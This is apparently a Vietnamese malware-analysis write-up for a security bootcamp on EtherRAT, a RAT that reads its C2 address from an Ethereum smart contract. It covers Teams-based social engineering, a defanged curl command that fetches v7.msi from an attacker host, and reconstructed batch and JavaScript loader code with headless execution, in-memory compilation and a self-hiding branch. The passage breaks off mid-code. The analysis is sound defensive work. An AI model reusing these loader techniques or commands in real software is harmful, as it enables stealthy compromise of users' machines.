







> _Lưu ý: Đây là tài liệu thứ nhất được tôi tổng hợp và chuẩn bị cho Security Bootcamp 2026, tổ chức tại TP. Buôn Ma Thuột, tỉnh Đắk Lắk từ ngày 10–12/09/2026. Trong quá trình biên soạn, tôi có sử dụng AI để hỗ trợ tra cứu, hệ thống hóa và biên tập nội dung. Mặc dù đã kiểm tra lại các thông tin, tài liệu vẫn có thể còn thiếu sót hoặc nhận định chưa chính xác. Nếu có ai đó đọc bài viết này và thấy sai xót đâu đó, rất mong nhận được góp ý từ bạn đọc để tôi tiếp tục chỉnh sửa và hoàn thiện._

> **TL;DR.** Bài viết tổng hợp các chiến dịch và mẫu mã độc **lạm dụng blockchain trong cơ chế phân giải C2**, tập trung vào **EtherHiding và EtherRAT**, được ghi nhận đến ngày **06/08/2026** dựa trên kho dữ liệu [Unit42-timely-threat-intel](https://github.com/PaloAltoNetworks/Unit42-timely-threat-intel) của **Palo Alto Networks Unit 42**. Các trường hợp cho thấy Ethereum, BNB Smart Chain và Polygon được sử dụng như một lớp trung gian để lưu trữ, phân giải hoặc cập nhật địa chỉ C2 thay vì nhúng cố định hạ tầng điều khiển trực tiếp trong mã độc. Trong bài viết này, chiến dịch **[Fake IT Support Abuses Teams to Deliver EtherRAT](https://github.com/PaloAltoNetworks/Unit42-timely-threat-intel/blob/main/2026-06-28-Fake-IT-support-abuses-Teams-to-deliver-EtherRAT.txt)** ngày **28/06/2026** được lựa chọn làm **case study chính** để phân tích sâu chuỗi tấn công EtherRAT và làm rõ cách mã độc sử dụng **Ethereum smart contract như một cơ chế phân giải C2**, từ quá trình truy vấn dữ liệu on-chain, lấy C2 hiện tại cho đến việc kết nối tới hạ tầng điều khiển thực tế.

| Ngày       | Báo cáo                                                                                                                           | Blockchain          | Cơ chế phân giải C2                                                                                                                                    |
| ---------- | --------------------------------------------------------------------------------------------------------------------------------- | ------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------ |
| 2026-07-30 | [Remus Info-Stealer Uses Blockchain-Anchored C2](2026-07-30-Remus-Info-Stealer-Uses-Blockchain-Anchored-C2.txt)                   | Ethereum            | Truy vấn smart contract `0x999941b74F6bbc921D5174A5b29911562cd2D7CF` qua RPC `ethereum-rpc[.]publicnode[.]com`                                         |
| 2026-07-21 | [Malicious npm/PyPI Supply Chain packages](2026-07-21-Malicious-npm-PyPI-Supply-Chain-packages.txt)                               | Ethereum mainnet    | Dropper **EtherHiding**; 2 contract của kẻ tấn công: `0x52221c293a21D8CA7AFD01Ac6bFAC7175D590A84`, `0xa1b40044EBc2794f207D45143Bd82a1B86156c6b`        |
| 2026-07-02 | [ClickFix campaign utilizing MaaS kit with Blockchain C2](2026-07-02-ClickFix-campaign-utilizing-MaaS-kit-with-Blockchain-C2.txt) | **Polygon (MATIC)** | `tracker.js` tra cứu blockchain lấy URL C2 mã hóa base36; là 1 trong **4 lớp phân giải C2** độc lập                                                    |
| 2026-06-28 | [Fake IT support abuses Teams to deliver EtherRAT](2026-06-28-Fake-IT-support-abuses-Teams-to-deliver-EtherRAT.txt)               | Ethereum            | Smart contract `0x6e044e19000487c4a6e6af15b4132a5561b5ee1f` + `0x788a5336c0ef70be87619a3c13a43050c426f7ec`; C2 dự phòng hardcode `necropatia[.]com`    |
| 2026-05-22 | [RemusStealer Delivered via Software Search Redirection](2026-05-22-RemusStealer-Delivered-via-Software-Search-Redirection.txt)   | Ethereum            | **Ethereum Dead Drop Resolver** - cùng contract `0x999941b74F6bbc921D5174A5b29911562cd2D7CF` qua `eth[.]llamarpc[.]com`; loader Go làm rối bằng Garble |
| 2026-04-13 | [LORIKAZZ ANDROID/IOT](2026-04-13-LORIKAZZ-ANDROID-IOT.txt)                                                                       | Ethereum (**ENS**)  | Chuỗi `"Empty ENS record"` trong ELF - chồng lấn mã nguồn với Kimwolf/AISURU                                                                           |
| 2026-03-30 | [KIMWOLF V7 IoT](2026-03-30-KIMWOLF-V7-IoT.txt)                                                                                   | Ethereum (**ENS**)  | 5 RPC endpoint hardcode, phân giải tên miền **ENS** ra IP C2; backup C2 qua Tor .onion                                                                 |
| 2024-09-04 | [EtherHiding popups still active](2024-09-04-IOCs-for-EtherHiding-popups.txt)                                                     | **BNB Smart Chain** | Kỹ thuật **EtherHiding** gốc - mã độc giấu trong smart contract, lấy qua `bsc-dataseed1.binance[.]org`; gắn với ClearFake/ClickFix                     |

> Nguồn báo cáo của "PaloAltoNetworks": https://github.com/PaloAltoNetworks/Unit42-timely-threat-intel/tree/main

---

Tôi phân tích EtherRAT lần đầu khi đọc báo cáo ngày 28/06/2026 của Unit 42 (- https://github.com/PaloAltoNetworks/Unit42-timely-threat-intel/blob/main/2026-06-28-Fake-IT-support-abuses-Teams-to-deliver-EtherRAT.txt -), trong đó attacker giả mạo bộ phận hỗ trợ IT gọi Microsoft Teams cho nạn nhân, xin quyền điều khiển màn hình, rồi tự tay gõ một lệnh `curl` để tải `v7.msi` về máy. Điều đáng chú ý không phải là phần khai thác social engineering - kiểu tấn công đó đã quá phổ biến - mà là dòng cuối cùng của báo cáo: payload không mang theo địa chỉ C2, nó lấy chuỗi C2 từ một smart contract trên Ethereum.

Từ IoC được Unit 42 tổng hợp, tôi tải `"v7.msi"` từ VirusTotal về - mẫu mã độc khởi đầu của cuộc tấn công, bóc từng lớp, phân tích và viết lại toàn bộ quá trình ở đây.



Tổng quan những điểm chính thu được khi phân tích:

- Chuỗi thực thi không mang theo trình thông dịch riêng - nó tải **Node.js v18.20.5 hợp lệ từ `nodejs.org`**, rồi dùng chính runtime đó để chạy mã độc.
- Payload cuối **không được ghi ra đĩa dưới dạng `.js`**; nó được đẩy vào `node.exe -` qua stdin.
- Địa chỉ C2 không hard-code. Bot gửi `eth_call` song song tới **bảy RPC Ethereum công khai**, decode kết quả thành một URL, và chỉ dùng `necropatia[.]com` khi tất cả nền tảng RPC của bên thứ ba đều thất bại.
- EtherRAT core **không có sẵn chức năng nào** - không keylogger, không stealer. Nó chỉ polling C2 và thực thi bất kỳ JavaScript nào được trả về bằng `AsyncFunction`.



Cùng tôi phân tích đào sâu hơn cuộc tấn công sử dụng kỹ thuật còn khá mới này.

# I. Initial Access

Chuỗi xâm nhập bắt đầu bằng một email HTML giả mạo khảo sát nhân viên, đính kèm tệp `EE Survey - How to log on.pdf`. Nạn nhân mở file trong Adobe Acrobat Reader, và ngay sau đó nhận một cuộc gọi Microsoft Teams từ tài khoản có tên hiển thị "System Administrator".

Trong nhật ký phiên làm việc, tiêu đề cửa sổ Teams để lại dấu vết khá rõ:

```text
System Administrator (External unfamiliar) | Microsoft Teams
```

Nhãn `External unfamiliar` xuất hiện khi người đối thoại đến từ một tenant bên ngoài, không có quan hệ tin cậy với tổ chức. Nhật ký Teams xác nhận đây là một cuộc trò chuyện OneOnOne xuyên tenant:

```text
helpdesk@Progressive936.onmicrosoft[.]com    (tài khoản của kẻ tấn công)
310e9ead-4f6f-491e-aafe-feb08c8d17a4         (attacker tenant ID)
HasForeignTenantUsers: true
```

Điều đáng nói là nạn nhân không tự thực hiện các thao tác tiếp theo. Trong phiên làm việc xuất hiện artefact:

```text
CtrlVirtualCursorWin_000001E8A159B970
```

Đây là của tính năng điều khiển màn hình trong Teams: khi một người tham gia cấp hoặc yêu cầu quyền điều khiển, Teams chặn chuyển động chuột của người điều khiển và chèn chúng vào máy bị điều khiển qua một con trỏ ảo. Sự hiện diện của nó nghĩa là attacker đang trực tiếp điều khiển máy nạn nhân.

Dưới quyền điều khiển đó, tác nhân hướng nạn nhân cài HopToDesk và AnyDesk qua Microsoft Edge - hai công cụ RMM hợp lệ, dùng để giữ đường vào sau khi cuộc gọi Teams kết thúc. Rồi mở Command Prompt và tải MSI:

```bat
cmd /c curl -Lo "%LOCALAPPDATA%\Temp\v7.msi" hxxps[:]//camorreado[.]click/v7.msi
```

SHA-256 của `v7.msi`:

```text
fc2907fa866f86e0821f75060a331ce69ee10ff3aa374587993b17ba5406fa33
```

Một chi tiết thú vị: tại thời điểm điều tra, `camorreado[.]click` để lộ một open directory chứa EtherRAT từ `v1` đến `v9`, cập nhật lần cuối ngày 26/06/2026. Khi tôi thử lại lệnh `curl` ở trên, các file đã bị xóa nội dung - bên tấn công đã dọn hạ tầng. Cần phân biệt rõ: đây là hạ tầng **phát tán**, không phải C2 mà implant dùng sau khi cài.

Trong lúc còn kiểm soát máy, tác nhân còn truy cập cổng ServiceNow nội bộ và tạo một phiếu hỗ trợ mới (`My Request - INC0491{REDACTED}`), dường như để xin quyền truy cập vào một số ứng dụng. Đây là bước chuẩn bị cho giai đoạn sau, không thuộc chuỗi thực thi mã độc.

---

# II. Unpacking the MSI

`v7.msi` là một Windows Installer được viết bằng JavaScript, nhắm Windows. Tôi dùng Orca để xem tổng quan các bảng và CustomAction, rồi `lessmsi` để extract ra file thật:

```text
R2YxSP2m.cmd          batch loader
z0SYYdWk9g.dat        JavaScript loader bị làm rối
eXYlcnebRLrWyBc.ini   blob chứa EtherRAT core đã mã hóa
```



Ba tệp được thả vào cùng một thư mục trong vùng dữ liệu ứng dụng. Một CustomAction khởi chạy batch loader trong cửa sổ headless:

```bat
conhost --headless cmd /c "R2YxSP2m.cmd"
```

Toàn bộ chuỗi, sau khi tôi bóc hết các lớp, rút gọn lại như sau:

```text
v7.msi
└─ conhost --headless cmd /c R2YxSP2m.cmd
   └─ conhost --headless cmd /c call R2YxSP2m.cmd 49UB
      └─ node.exe z0SYYdWk9g.dat
         └─ vm.compileFunction(<JS 1969 byte đã giải mã>)
            ├─ copy node.exe -> texuvTlV.exe
            ├─ giải mã eXYlcnebRLrWyBc.ini
            └─ texuvTlV.exe -
               └─ EtherRAT core được truyền qua stdin
```

Trong bài phân tích tôi gọi `R2YxSP2m.cmd`, `z0SYYdWk9g.dat` và payload giải mã từ `eXYlcnebRLrWyBc.ini` lần lượt là Giai đoạn 1, 2 và 3. Lưu ý là Unit 42 đánh số các payload nội bộ khác đi và gọi EtherRAT core là Stage 4 - khi đối chiếu IoC giữa hai tài liệu cần để ý điểm này.

---

# III. Stage 1: The ".cmd" Loader

`R2YxSP2m.cmd` obfuscate lệnh bằng kỹ thuật string-slicing của batch: mã độc nhét tất cả các mảnh chuỗi vào một biến `_sxr`, rồi gọi bằng `%_sxr:~offset,length%`. Kết quả là file gốc chứa các ký tự vô nghĩa, nhưng lúc chạy thì `curl`, `tar`, `where`, `timeout`, `conhost`, `cmd`, `call`, `node` được dựng lại đầy đủ.



Bảng offset sau khi tôi giải ra:

```text
10,4    curl              86,4    -sLo
19,3    tar               94,3    -xf
27,4    node              102,8   /nobreak
37,7    timeout           115,18  https://nodejs.org
46,5    where             140,15  /dist/v18.20.5/
55,3    del               162,21  node-v18.20.5-win-x64
63,3    ren               185,7   conhost
72,4    .exe              199,10  --headless
78,4    .zip              211,3   cmd
                          220,2   /c
                          228,4   call
```

Có thể tự động hóa việc này bằng PowerShell mà không cần chạy mẫu:

```powershell
$raw = Get-Content .\R2YxSP2m.cmd -Raw
$sxr = [regex]::Match($raw, 'set\s+"_sxr=([^"]+)"').Groups[1].Value

$decoded = [regex]::Replace($raw, '%_sxr:~(\d+),(\d+)%', {
    param($m)
    $sxr.Substring([int]$m.Groups[1].Value, [int]$m.Groups[2].Value)
})

$decoded | Set-Content .\R2YxSP2m.deobf.txt
```

Sau khi gỡ rối, việc đầu tiên script làm là tự gọi lại chính nó với một marker:

```bat
if not "%~1"=="49UB" (
    %SystemRoot%\System32\conhost --headless ^
        %SystemRoot%\System32\cmd /c call "%~f0" 49UB
    exit
)
```

Marker `49UB` vừa đảm bảo script chạy trong phiên headless, vừa chặn vòng lặp tự gọi vô hạn.

Tiếp theo, script lưu thư mục chứa chính nó vào `kaw` và đi tìm `node.exe` trên `PATH`:

```bat
set "kaw=%~dp0"
set "kaw=!kaw:~0,-1!"

set "wgi="
where node >"!kaw!\qNCplqpq" 2>nul
set /p wgi=<"!kaw!\qNCplqpq"
del "!kaw!\qNCplqpq" >nul 2>&1
if defined wgi goto :dNTOe
```

`qNCplqpq` chỉ là tệp tạm chứa output của `where node`, bị xóa ngay sau khi đọc. Nếu máy chưa có Node.js, loader tải thẳng bản chính thức về:

```bat
set "ot8=https://nodejs.org/dist/v18.20.5/node-v18.20.5-win-x64.zip"
set "z4d=node-v18.20.5-win-x64.zip"
curl -sLo "%TEMP%\!z4d!" "!ot8!"
tar -xf "%TEMP%\!z4d!" -C "!kaw!"
del /q "%TEMP%\!z4d!" >nul 2>&1
ren "!kaw!\node-v18.20.5-win-x64" 1DIZ0D >nul 2>&1
```

Đây chính là điểm khiến chuỗi này khó chặn theo kiểu truyền thống: URL là `nodejs.org`, file tải về có chữ ký hợp lệ, và `curl.exe`/`tar.exe` đều là binary có sẵn của Windows. Script không kiểm tra hash, chữ ký hay mã thoát của thao tác tải - nó chỉ lặp lại việc tìm và đổi tên thư mục sau mỗi ba giây cho đến khi `node.exe` xuất hiện.

Khi đã có runtime, loader chờ cho đến khi cả hai payload cùng tồn tại:

```bat
:xrQ6m
if not exist "!kaw!\eXYlcnebRLrWyBc.ini" goto :udapi
if not exist "!kaw!\z0SYYdWk9g.dat" goto :udapi
goto :T7Ofb

:udapi
timeout /t 2 /nobreak >nul 2>&1
goto :xrQ6m
```

Hai file này do MSI thả xuống chứ không được batch tải riêng, nên vòng lặp này thực chất là cơ chế đồng bộ với tiến trình cài đặt. Cuối cùng nó đặt một biến môi trường rồi thực hiện stage tiếp theo:

```bat
:T7Ofb
set "_XH=1"
%SystemRoot%\System32\conhost --headless "!wgi!" "!kaw!\z0SYYdWk9g.dat"
exit
```

`_XH=1` trông vô hại, nhưng nó sẽ quyết định một nhánh hành vi ở giai đoạn sau. Hãy ghi nhớ điều này.

---

# IV. Stage 2: JavaScript loader z0SYYdWk9g.dat

## IV.1. Sumary analysis ".dat"

Mặc dù mang phần mở rộng `.dat`, đây là JavaScript. Mở file ra thì phần lớn nội dung là object:



```javascript
function bfzjo(s,n){var r=0;for(var i=0;i<s.length;i++){r=(r*n+s.charCodeAt(i))>>>0}return r}
function yvu(v,lo,hi){return v<lo?lo:v>hi?hi:v}
function jvwj(a,b){var c=[];for(var i=0;i<a.length;i++)c[i]=(a[i]+b[i%b.length])&255;return c}
var iifn={"threshold54":1378,"token87":"94ea2ff910a28771f74c2759132ce77d0eb231e3aa1900e1","store94":"32dcfd4f...","ht4":"70617468","bs9":"636f6d70696c6546756e6374696f6e","au5":"766d","ar9":"72657175697265", ... };
```

Ba hàm `bfzjo`, `yvu`, `jvwj` ở đầu file trông rất giống code mã hóa, nhưng không hàm nào được gọi - chúng là mã obfuscation. Tương tự, các trường như `threshold54`, `timeout54`, `mode43`, `level4`, `revision23` trong `iifn` không bao giờ được đọc.

Phần tiếp theo thực sự bắt đầu ở đây:

```javascript
var kqm = Buffer,
  iem = "hex";
var uwqft = function (k) {
  return kqm.from(iifn[k], iem).toString();
};
```

Một hàm decode hex đơn giản. Chạy nó qua các key có ý nghĩa cho ra mapping:

```text
au5 -> vm              ho9 -> module
bs9 -> compileFunction iq6 -> __filename
ar9 -> require         ss2 -> __dirname
pm8 -> exports         ht4 -> path
```

Vậy là loader đang giấu tên module và API mà nó sắp dùng. Tiếp theo là phần giải mã thật:

```javascript
var ljdb = kqm.from(iifn["token87"], iem);
var dhegf = iifn["cache27"] + iifn["store94"];
var kbei = kqm.from(dhegf, iem);
var fie = kqm.alloc(kbei.length);
for (var v = 0; v < kbei.length; v++) {
  fie[v] = (kbei[v] - ljdb[v % ljdb.length] - v) & 255;
}
```

Nó ghép hai chuỗi hex `cache27` và `store94` thành một blob, rồi giải mã bằng phép trừ với khóa `token87` dài 24 byte, có cộng thêm chỉ số byte:

```js
decoded[i] = (blob[i] - token87[i % 24] - i) & 0xff;
```

Khóa nhúng trong mẫu:

```text
94ea2ff910a28771f74c2759132ce77d0eb231e3aa1900e1
```

Kết quả là một JavaScript loader khác dài 1969 byte, SHA-256:

```text
d46b4e8d188fe1773c44d38d730dcb6287639568240c765d9ad4ad79cd239e82
```

Đoạn mã này không được tạo ra trên đĩa. Thay vào đó:

```javascript
var dmq = require(uwqft("au5"));
var guh = dmq[uwqft("bs9")](fie.toString(), [
  uwqft("ar9"),
  uwqft("pm8"),
  uwqft("ho9"),
  uwqft("iq6"),
  uwqft("ss2"),
]);
var clei = process.argv[1] || __filename || ".";
guh(ovaz, module.exports, module, clei, rtal.dirname(clei));
```

Bỏ mapping vào thì đọc ra là:

```js
const fn = require("vm").compileFunction(decodedSource, [
  "require",
  "exports",
  "module",
  "__filename",
  "__dirname",
]);

fn(require, module.exports, module, currentFile, path.dirname(currentFile));
```

Về tác động thì đây là `eval` trá hình: mã vừa giải mã được biên dịch và chạy ngay trong tiến trình Node, với đầy đủ `require` và các đối tượng module. Nhưng API thực sự được gọi là `vm.compileFunction`, không phải `eval()` - đáng lưu ý nếu bạn viết rule dựa trên tên API.

Loader 1969 byte làm ba việc. Thứ nhất, nó trỏ tới file ciphertext và cố nhân bản chính runtime đang chạy:

```js
const encryptedIni = path.join(scriptDir, "eXYlcnebRLrWyBc.ini");
const copiedNode = path.join(path.dirname(process.execPath), "texuvTlV.exe");

try {
  if (!fs.existsSync(copiedNode)) {
    fs.copyFileSync(process.execPath, copiedNode);
  }
} catch (_a) {}
```

Nếu chuỗi đang dùng runtime vừa tải, artefact sẽ nằm ở `1DIZ0D\texuvTlV.exe`. Nếu Node.js được tìm thấy trong một thư mục hạn chế quyền ghi như `Program Files`, thao tác copy thất bại - nhưng exception bị ẩn đi và loader dùng lại `node.exe` gốc. Đây là lý do bạn không nên chỉ tìm kiếm `texuvTlV.exe`.

Thứ hai, nó có nhánh tự ẩn:

```js
function hideSelf() {
  if (process.env._XH) return;

  const env = Object.assign({}, process.env, { _XH: "1" });
  const child = spawn(nodeToRun, [currentScript], {
    detached: true,
    stdio: "ignore",
    env,
    windowsHide: true,
    cwd: path.dirname(currentScript),
  });

  child.unref();
  setTimeout(function () {
    process.exit();
  }, 0x12c);
}
```

Đây là chỗ `_XH=1` từ Giai đoạn 1 phát huy tác dụng: trong chuỗi MSI bình thường, biến đã được đặt nên nhánh này bị bỏ qua hoàn toàn. Nhưng nếu bạn kích hoạt `.dat` độc lập trong lab, nó sẽ tự spawn một tiến trình detached mới, gọi `unref()` rồi tự thoát sau 300 mili giây - và bạn mất dấu tiến trình con. Một cái bẫy nhỏ dành cho người phân tích động.

Việc thứ ba là giải mã `.ini`.

---

## IV.2. Decrypt payload

`eXYlcnebRLrWyBc.ini` không phải file cấu hình. Nó là ciphertext, và thuật toán giải mã không phải AES hay RC4 mà là một chuỗi biến đổi byte-by-byte tự chế. Với mỗi byte, loader thực hiện năm bước:

```text
1. Trừ byte ciphertext ngay trước đó       (delta decode)
2. XOR với khóa n theo chu kỳ
3. XOR với byte cao của vị trí: (i >> 8) & 0xff
4. Dùng kết quả làm chỉ số tra S-box 256 byte
5. Trừ khóa k theo chu kỳ
```

Bản dựng lại thuật toán của tôi:

```js
function decryptIni() {
  const input = fs.readFileSync(encryptedIni);
  const output = Buffer.alloc(input.length);
  let previous = n[0];

  for (let i = 0; i < input.length; i++) {
    let b = input[i];
    const oldPrevious = previous;

    previous = b;
    b = (b - oldPrevious) & 0xff;
